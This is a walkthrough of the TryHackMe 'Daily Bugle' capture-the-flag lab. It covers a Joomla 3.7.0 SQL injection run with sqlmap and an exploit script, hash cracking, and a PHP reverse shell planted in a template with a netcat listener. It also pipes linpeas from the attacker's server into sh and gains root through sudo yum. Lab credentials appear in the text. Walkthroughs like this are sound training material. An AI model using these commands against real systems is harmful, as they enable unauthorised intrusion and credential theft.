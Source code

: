 ```yaml
---
title: TryHackMe - Daily Bugle
layout: post
categories:
- TryHackMe
tag:
- sqli,
- yum,
- joomla
image: "/assets/img/daily-bugle.png"
image_alt: daily-bugle
---
```


Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges.

<br>

## 1. Deploy

Deploy the machine - it may take up to 2 minutes to configure. 

<br>

### 1.1 Access the web server, who robbed the bank?

As usual, let's do a nmap scan first.

```
$ nmap -sSV 10.10.139.115
```

![nmap](/assets/img/tryhackme/daily-bugle/nmap.png)

We found three open port. Theese are 22/tcp SSH, 80/tcp HTTP and 3306/tcp MYSQL.

Let's visit the homepage. Let's see what we can find.

We found the robber. It's a spiderman.

![home](/assets/img/tryhackme/daily-bugle/home.png)

**Answer: `spiderman`**

<br>

---

<br>

## 2. Obtain User and Root

Hack into the machine and obtain the root user's credentials.

<br>

### 2.1 What is the Joomla version?

Now, let's do a gobuster scan.

```
$ gobuster dir -u http://10.10.139.115/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/img/tryhackme/daily-bugle/gobuster.png)

Let's do a scan using joomscan to find the Joomla version.

```
$ joomscan --url http://10.10.139.115/
```

![joomscan](/assets/img/tryhackme/daily-bugle/joomscan.png)

We found the Joomla version. It is 3.7.0.

**Answer: `3.7.0`**

<br>

_Instead of using SQLMap, why not use a python script!_

### 2.2 What is Jonah's cracked password?

With the Joomla version we found, we now search in exploit-db and see if we can find anything. 

![search](/assets/img/tryhackme/daily-bugle/search.png)

Yes, we found the vulnerability. [CVE-2017-8917](https://www.exploit-db.com/exploits/42033).

![db](/assets/img/tryhackme/daily-bugle/db.png)

You can progress using **`sqlmap`** here, but I will use a python script written for faster results. Still below is the code for sqlmap

![sql](/assets/img/tryhackme/daily-bugle/sql.png)

```
$ sqlmap -u "http://10.10.139.115/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![sqlmap](/assets/img/tryhackme/daily-bugle/sqlmap.png)

I will use the python script [here](https://github.com/stefanlucas/Exploit-Joomla).

```
$ wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
$ python joomblah http://10.10.139.115/
```

![joomblah](/assets/img/tryhackme/daily-bugle/joomblah.png)

We found this hash code for Jonah's password.

```
> $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

Let's crack this hash.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.hash
```

![john](/assets/img/tryhackme/daily-bugle/john.png)


**Answer: `spiderman123`**

<br>

### 2.3 What is the user flag?

Go to the administrator directory and login with **`jonah:spiderman123`**

We are looking for a suitable place for any reverse shell. We go to where the .php pages are located.

First, we click on **`Templates`** from the left sidebar.

![step1](/assets/img/tryhackme/daily-bugle/step1.png)

Then we click on **`Templates`**  again on the page we go to.

![step2](/assets/img/tryhackme/daily-bugle/step2.png)

Then we click on **`Beez3 Details and Files`**.

![step3](/assets/img/tryhackme/daily-bugle/step3.png)

And we have reached the source files, and from here we can put our reverse shell in the index.php file.
You can find the reverse shell [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

![step4](/assets/img/tryhackme/daily-bugle/step4.png)

Don't forget to change this.

![change](/assets/img/tryhackme/daily-bugle/change.png)

Now, we modify the contents of index.php.

![index](/assets/img/tryhackme/daily-bugle/index.png)

We set up a netcat listener before opening the index.php page.

```
$ nc -nlvp 4444
```

Now browse [http://10.10.139.115/templates/beez3/index.php](http://10.10.139.115/templates/beez3/index.php) and you should get a reverse shell.

And we are inside.

![in](/assets/img/tryhackme/daily-bugle/in.png)

The first thing on the server was to list the /home directory and find users.

![ls](/assets/img/tryhackme/daily-bugle/ls.png)

I tried to enter the jjameson directory but it didn't work. So I decided to download [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/20230312) and run it on the target machine.

First I set up my own machine. I am running the following code in the directory where the linpeas.sh file is located.

```
$ sudo python -m http.server 80
```

Then I run the following code on the target machine.

```
$ curl 10.8.86.168/linpeas.sh | sh 
```

And it worked, let's see what we find.

![run](/assets/img/tryhackme/daily-bugle/run.png)

We found a password but I have no idea what password it is.

![pass](/assets/img/tryhackme/daily-bugle/pass.png)

Let's try it for jjameson.

![jj](/assets/img/tryhackme/daily-bugle/jj.png)

We also found the jjameson password**`(nv5uz9r3ZEDzVjNu)`**

Now we can go to the jjameson directory and get the user flag.

```
$ cd /home/jjameson
$ ls -la
$ cat user.txt
```

![user](/assets/img/tryhackme/daily-bugle/user.png)

<br>

### 2.4 What is the root flag?

Now, I check by doing `sudo -l`.

![yum](/assets/img/tryhackme/daily-bugle/yum.png)

I'm looking at [gftobins](https://gtfobins.github.io/gtfobins/yum/) to get root privileges using yum.

And let's try this.

![gtfobins](/assets/img/tryhackme/daily-bugle/gtfobins.png)

Yes, it worked.

![privesc](/assets/img/tryhackme/daily-bugle/privesc.png)

```
$ cd /root
$ ls -la
$ cat root.txt
```

![root](/assets/img/tryhackme/daily-bugle/root.png)

<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
